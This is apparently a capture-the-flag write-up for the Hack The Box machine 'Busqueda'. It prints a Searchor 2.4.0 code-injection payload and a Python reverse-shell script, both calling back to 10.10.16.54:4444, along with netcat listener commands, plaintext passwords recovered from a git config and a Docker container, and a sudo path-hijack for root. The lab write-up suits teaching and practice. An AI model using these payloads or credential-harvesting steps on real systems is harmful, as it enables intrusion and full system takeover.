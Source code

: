 # Busqueda HTB machine

** A machine with a web service that uses a vulnerable python library for generating search queries. **

- After exploring the web page, we can find information about the website. As it is stated at the bottom of the page "Powered by Flask and Searchor 2.4.0". After gathering information about Searchor 2.4.0, we found out that it is vulnerable to Arbitrary Code Execution(CWE-94), as stated in the following article:

https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303

We can find the exploit of Searchor 2.4.0 in the following github link:

https://github.com/jonnyzar/POC-Searchor-2.4.2

Let's inject a reverse shell into the website "What do you want to search for:" field, using the following code:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.54',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Before sending the payload, make sure to execute "nc -lvpn 4444" with your terminal and change your ip with the one you have.

After sending the payload, we have user access as user "svc". We can now obtain the user flag. After examinating the structure of the server, we find a useful configuration file in the "/var/www/" folder which is a common directory found in Linux-based operating systems, typically used for storing web content. We can use the following command to locate files that have "config" as a substring of their name:

```
find /var/www/ -type f -iname "*config*" 2>/dev/null
```

The output is "/var/www/app/.git/config". We can perform "cat /var/www/app/.git/config" to view the file. We can see the following line in the file that provides credentials and a subdomain of the website called gitea.searcher.htb. 

```
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

This article explains how git credentials are stored in configuration files.

https://www.shellhacks.com/git-config-username-password-store-credentials/


We can try using the password as the password for the "svc" user to ssh to the machine and achieve connection. By executing "ssh svc@10.10.11.208" and providing the password "jh1usoih2bkjaspwe92" we can achieve connection.

Let's see the root permissions of the "svc" user to check if we can achieve privilege escalation by any means. After executing "sudo -l" we get the following message:

```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Executing the command "sudo /usr/bin/python3 /opt/scripts/system-checkup.py *" we get the following help message:

```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps" will list all running docker containers and the id associated with each docker container.

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect" will generate the following help message:

```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

From this docker website we can find the correct format to inspect a certain docker container.

By getting the container id from the previous steps, we can find information about the docker container by executing the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```

From the output of the command, we get a line that contains a password value for the git database at the gitea.searcher.htb subdomain.

```
"GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh”
```

Add the gitea.searcher.htb subdomain to the /etc/hosts folder, then load the page and go to the "sign in" page. After trying the usernames presented in the output of the previous command, we need to find the correct username. We can try to sign-in as "cody" and password "jh1usoih2bkjaspwe92" as we discovered previously. We can see that in the dashboard there is a user named "administrator". Let's try use "administrator" as username and password "yuiu1hoiu4i5ho1uh". We now successfully logged in as "administrator" and we can find a private folder named "scripts" and view the scripts used in the server associated with the command "/usr/bin/python3 /opt/scripts/system-checkup.py *". After examinating the scripts, we find a vulnerability in the script "system-checkup.py" in the following block:

```
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

This block executes a command specified in the arg_list list by calling the run_command() function. If the execution is successful, it prints the output and a "Done!" message. However, if an exception occurs during the execution, it prints a generic "Something went wrong" message and exits with a non-zero status code.

The code relies on the run_command() function to execute the command specified in arg_list. The security and vulnerability of this code depend on how the run_command() function is implemented. If the function does not properly validate or sanitize the input, it may be susceptible to command injection attacks.

Let's try creating a script named "full-checkup.sh" in the directory "/home/svc" for the necessary permissions. We can execute "touch full-checkup.sh" and then use "vi" editor to create the file. Paste the following reverse shell code with appropriate ip and port numbers:

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.54",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

Now save the script and execute "chmod +x full-checkup.sh" to make it executable. Execute "nc -lvpn 4444" in your terminal to listen for incoming requests. Now, execute the script on the machine with the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Congrats! We connected to the machine as "root" user and we can display the root flag under the "/root" directory.
